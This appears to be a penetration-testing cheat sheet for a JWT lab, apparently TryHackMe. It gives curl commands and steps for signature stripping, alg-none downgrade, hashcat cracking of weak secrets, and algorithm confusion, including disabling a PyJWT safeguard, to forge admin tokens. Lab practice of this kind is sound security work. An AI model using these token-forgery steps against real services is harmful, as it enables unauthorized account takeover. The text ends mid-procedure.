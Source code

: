 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

 - curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT Token)

### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

 - curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

### Grab the plain text JWT header, change the Alg to None and encode it with base64.

### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

 - curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 4) Weak Symmetric Secrets

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - nano jwt.txt (Save the retrieved JWT in a text file)

 - wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list (Download this wordlist for JWT secrets)

 - hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list (Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access)

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

 - curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 5) Signature Algorithm Confusion

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token with the public key in this example)

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.

 - pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )
